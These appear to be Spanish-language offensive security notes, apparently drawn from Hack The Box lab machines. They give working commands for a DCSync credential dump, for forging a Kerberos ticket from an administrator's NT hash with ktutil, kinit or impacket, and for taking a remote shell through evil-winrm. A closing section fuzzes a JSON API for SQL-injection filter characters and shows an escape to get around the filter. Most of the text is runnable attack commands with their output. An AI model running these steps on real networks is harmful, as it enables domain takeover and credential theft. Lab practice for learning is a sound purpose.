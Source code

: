 Nos llegará una shell como el usuario que ejecuta este servicio. Como requiere de privilegios de administrador, seguramente este usuario pueda efectuar un DCSync al DC. Podemos hacerlo con secretsdump si poseemos las credenciales. Si no, podemos hacerlo desde powershell:

```powershell
Get-ADReplAccount -SamAccountName administrator -Server '<HOSTNAME>.<DOMINIO>'
```

Ahora para obtener el TGT mediante el hash NT:

```shell
❯ ktutil
ktutil:  add_entry -p administrator@<DOMINIO> -k 1 -key -e rc4-hmac
Key for administrator@WINDCORP.HTB (hex): <HASH_NT>
ktutil:  write_kt administrator.keytab
ktutil:  exit

❯ kinit -V -k -t administrator.keytab -f administrator@<DOMINIO>
Using default cache: /tmp/krb5cc_0
Using principal: administrator@WINDCORP.HTB
Using keytab: administrator.keytab
Authenticated to Kerberos v5

❯ klist
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: administrator@WINDCORP.HTB

Valid starting     Expires            Service principal
25/07/23 19:42:00  26/07/23 05:42:00  krbtgt/WINDCORP.HTB@WINDCORP.HTB
	renew until 26/07/23 19:42:00
```

O con `impacket`:

```shell
impacket-getTGT -hashes :<HASH_NT> <DOMINIO>/administrator
```

Y ahora nos conectamos por WinRM

```shell
evil-winrm -i hathor.windcorp.htb -r WINDCORP.HTB
```
## BadChars en Json - Uso de SQLMAP

Tenemos una web que parece vulnerable a SQLi, pero para ver cuáles son los caracteres que están prohibidos usaremos `wfuzz`

```shell
wfuzz -c -u http://url/of/api -w /usr/share/SecLists/Fuzzing/special-chars.txt -d '{"name":"FUZZ"}' -H 'Content-Type: application/json;charset=utf-8' -t 1 --hc 200
```

Esto nos reportará los caracteres prohibidos, pero a lo mejor solo está prohibido `'` , que en hexadecimal es `0x27`, así que a la web le podrías pasar `\u27` y si está mal implementado te debería dejar hacerlo.
